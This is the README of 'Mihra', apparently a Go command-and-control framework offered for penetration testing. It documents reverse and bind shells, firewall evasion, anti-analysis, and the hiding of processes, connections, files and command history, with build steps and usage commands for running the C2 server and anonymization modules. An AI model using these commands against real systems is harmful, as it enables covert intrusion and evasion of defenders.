

<h1 align="center">📀 Mihra</h1>

<p align="center"></p>

## Overview

[For detailed documentation](https://deepwiki.com/0xVyper/Mihra)

The Simplified C2 Framework is a modular, security-focused command and control framework designed for easy integration with other systems. This framework provides essential security features, shell functionality, and malware analysis capabilities while maintaining a clean, streamlined architecture.

## Key Features

- **Core Security Features**
  - Memory protection (encryption, secure memory handling)
  - Network security (traffic obfuscation, firewall evasion)
  - Anti-analysis protection

- **Cryptography**
  - AES encryption for secure communications
  - RSA encryption for key exchange
  - Secure key management

- **Shell Functionality**
  - Reverse and bind shells
  - Secure shell with encrypted communications
  - Command execution and file transfers

- **Shell Anonymization**
  - Command history manipulation
  - Process hiding techniques
  - Network connection hiding
  - File hiding and secure deletion
  - Command obfuscation

- **Malware Analysis**
  - Unpacking capabilities for common packers
  - Binary analysis tools
  - Suspicious pattern detection

- **Modular Architecture**
  - Easy extension with custom modules
  - Clean integration points for other frameworks

## Architecture

The framework is organized into the following components:

```
mihra/
├── cmd/
│   ├── c2/              # Main C2 application
│   └── secure_shell/    # Secure shell executable
├── core/
│   ├── connector/       # Network connectivity
│   ├── crypto/          # Cryptographic operations
│   └── security/        # Security features
├── modules/
│   ├── shell_anon/      # Shell anonymization
│   └── unpacker/        # Malware unpacking
└── module/              # Module system
```

## Installation

```bash
# Clone the repository
git clone https://github.com/0xVyper/mihra.git

# Build the main C2 application
cd mihra
go build -o c2 ./cmd/c2

# Build the secure shell executable
go build -o secure_shell ./cmd/secure_shell
```

## Usage

### Starting the C2 Server (Bind Shell)

```bash
./c2 --server --host 0.0.0.0 --port 8443 --protocol tcp --secure
```

### Connecting to the C2 Server (Reverse Shell)

```bash
./c2 --client --host <server-ip> --port 8443 --protocol tcp --secure
```

### Using the Secure Shell

```bash
./secure_shell --host <server-ip> --port 8443 --passphrase <your-passphrase> --tls
```

### Using Shell Anonymization

```bash
./c2 --anonymize --module shell_anon setup
```

### Unpacking Malware

```bash
./c2 --module unpacker unpack <pid> <output-path>
```

### Listing Available Modules

```bash
./c2 --list-modules
```

### Getting Module Information

```bash
./c2 --module-info <module-name>
```

## Core Components

### Connector

The connector component handles network connectivity, supporting various protocols:

- TCP/UDP for direct connections
- HTTP/HTTPS for web-based communications
- DNS for covert communications

It supports both bind shell (server) and reverse shell (client) modes.

### Crypto

The crypto component provides cryptographic operations:

- AES encryption for secure data transmission
- RSA encryption for key exchange
- Secure key generation and management

### Security

The security component provides various security features:

- Memory protection (encryption, locking)
- Network security (traffic obfuscation, firewall evasion)
- Anti-analysis protection

## Modules

### Shell Anonymization Module

The shell anonymization module provides features for hiding shell activities:

- Command history manipulation
- Process hiding techniques
- Network connection hiding
- File hiding and secure deletion
- Command obfuscation

#### Example Usage

```bash
# Setup a secure shell environment
./c2 --module shell_anon setup

# Generate a shell script for setting up a secure environment
./c2 --module shell_anon generate_script /path/to/output.sh

# Hide a process
./c2 --module shell_anon hide_process <pid> <new-name>

# Securely delete a file
./c2 --module shell_anon secure_delete /path/to/file

# Get anonymization tips
./c2 --module shell_anon get_tips all


#################################################
# FOR ONGOING CONNECTIONS THROUGH SECURE_SHELL  #
#################################################
> shell_anon (triggers default configuration to hide)

```

### Session Module

The session module provides features for orchestrate multi-machine connenctions:

- Creating and handshake sessions
- send commands to N targets.
- Control current session secrets.
- hide traffic through two-layer encryption.

#### Example Usage

```bash
> /sessions
```

## Secure Shell

The secure shell executable provides a secure way to connect to the C2 server or client:

- Encrypted communications using TLS
- Secure handshake protocol
- File transfer capabilities
- Interactive and command modes

### Example Usage

```bash
# Interactive mode
./secure_shell --host <server-ip> --port 8443 --passphrase <your-passphrase> --tls

# Command mode
./secure_shell --host <server-ip> --port 8443 --passphrase <your-passphrase> --tls --interactive=false --command "ls -la"
```

## Integration with Other C2 Frameworks

The Simplified C2 Framework is designed to be easily integrated with other C2 frameworks:

1. **As a Module**: The entire framework can be imported as a module in other Go-based C2 frameworks.

2. **Component Integration**: Individual components (crypto, security, shell_anon, unpacker) can be integrated separately.

3. **API Usage**: The framework provides clean APIs for all functionality, making it easy to use from other systems.

### Integration Example

```go
import (
    "github.com/mihra/core/security"
    "github.com/mihra/modules/shell_anon"
)

func main() {
    // Create a security manager
    secManager := security.NewSecurityManager()
    
    // Initialize the security manager
    secManager.Initialize()
    
    // Create a shell anonymization module
    shellAnonModule := shell_anon.NewModule()
    
    // Apply shell anonymization
    shellAnonModule.ApplyFullAnonymization()
    
    // Your C2 framework code here...
}
```

## Security Considerations

- **Key Management**: Properly manage encryption keys and passphrases.
- **Network Security**: Use secure protocols (TLS) when possible.
- **Operational Security**: Use shell anonymization features to hide activities.
- **Anti-Analysis**: Be aware of anti-analysis techniques used by the framework.

## Extending the Framework

The framework can be extended with custom modules:

1. Create a new module directory in the `modules` directory.
2. Implement the `ModuleInterface` interface.
3. Register the module in the module system.

### Example Module

```go
package mymodule

import (
    "fmt"
    "github.com/mihra/module"
)

type Module struct {
    Name        string
    Description string
    Version     string
}

func NewModule() *Module {
    return &Module{
        Name:        "mymodule",
        Description: "My custom module",
        Version:     "1.0.0",
    }
}

func (m *Module) GetInfo() *module.ModuleInfo {
    return &module.ModuleInfo{
        Name:        m.Name,
        Version:     m.Version,
        Description: m.Description,
        Author:      "Your Name",
        Commands: []module.CommandInfo{
            {
                Name:        "hello",
                Description: "Say hello",
                Usage:       "hello [name]",
                Options:     map[string]string{},
            },
        },
        Options: map[string]string{
            "enabled": "true",
        },
    }
}

func (m *Module) ExecuteCommand(command string, args []string) (interface{}, error) {
    switch command {
    case "hello":
        name := "World"
        if len(args) > 0 {
            name = args[0]
        }
        return fmt.Sprintf("Hello, %s!", name), nil
    default:
        return nil, fmt.Errorf("unknown command: %s", command)
    }
}
```

## Conclusion

The Simplified C2 Framework provides a clean, modular architecture for command and control operations with a focus on security, anonymization, and malware analysis. Its design makes it easy to integrate with other C2 frameworks while maintaining essential functionality.

---

## Cotribuiting 🚀

Check it out our community server!

```
#just filtering bots
aHR0cHM6Ly9kaXNjb3JkLmdnLzh0YTRHSzlBCg==
```

---
## License

This framework is licensed under the GNU Affero General Public License v3.0 (AGPLv3). You are free to use, modify, and distribute this software, provided that any derivative works are also licensed under AGPLv3 and their source code is shared, including for network-accessed use (e.g., server deployments).

Ethical Use Disclaimer: This framework is intended for lawful security research and penetration testing only. The author is not responsible for any misuse or illegal activities conducted with this software.

See the LICENSE file for full details.

--
